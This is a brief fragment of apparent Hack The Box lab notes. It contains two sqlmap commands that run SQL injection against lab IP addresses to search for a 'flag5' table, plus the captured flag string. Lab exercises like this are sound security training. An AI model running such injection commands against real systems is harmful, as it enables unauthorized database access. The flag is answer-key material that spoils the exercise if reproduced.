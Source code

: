 sqlmap -u "http://94.237.57.57:39948/case5.php?id=1" --schema --search -T flag5

HTB{700_much`r15k_bu7_w0r7h_17}

94.237.63.109:44798

sqlmap -u "http://94.237.63.109:44798/case5.php?id=1" --schema --search -T flag5